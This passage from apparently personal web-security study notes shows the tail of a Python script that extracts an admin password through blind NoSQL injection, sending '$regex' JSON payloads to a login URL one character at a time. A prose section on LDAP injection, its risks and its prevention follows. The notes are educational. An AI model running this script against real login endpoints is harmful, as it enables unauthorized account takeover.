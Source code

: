     	time.sleep(2)
    
    	p2 = log.progress("Password")
    
    	for position in range(0, 24):
    		for character in characters:
    			
    			post_data = '{"username":"admin","password":{"$regex":"^%s%s"}}' % (password,character)
    			
    			headers = {'Content-Type': 'application/json'}
    			
    			r = requests.post(login_url, headers=headers, data=post_data)
    
    			if "Logged in as user" in r.text:
    				
    				password += character
    				p2.status(password)
    				break
    
    if __name__ == '__main__':
    
    	makeNoSQLi()
    ```
    
    ![[Untitled 194.png]]
    
    [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)
    

## LDAP Injections

The LDAP Injections are a type of attack in which the vulnerabilities of the web application that interacts with a LDAP server are exploited. LDAP server is a directory that is used to store user’s information and network resources.

The injection works via inserting LDAP commands in the inputs of the web application, that then are sent to the LDAP server.

  

As well as SQL and NoSQL injections, LDAP injection can be dangerous, here are some examples of what can be achived:

- Access to information or resources that should not be accessible.
- Make unauthorized changes in the database of the LDAP server, adding or deleting user or resources.
- Make malicious operations over the network as sent phishing or install malware in the systems.

  

To prevent LDAP injections, web applications that interact with an LDAP server must properly validate and clean up user input before sending it to the LDAP server. This includes validating the syntax of input fields, removing special characters, and limiting the commands that can be executed on the LDAP server.

It is also important that web applications are run with minimum privileges on the network and that LDAP server activities are regularly monitored for possible injections.

---
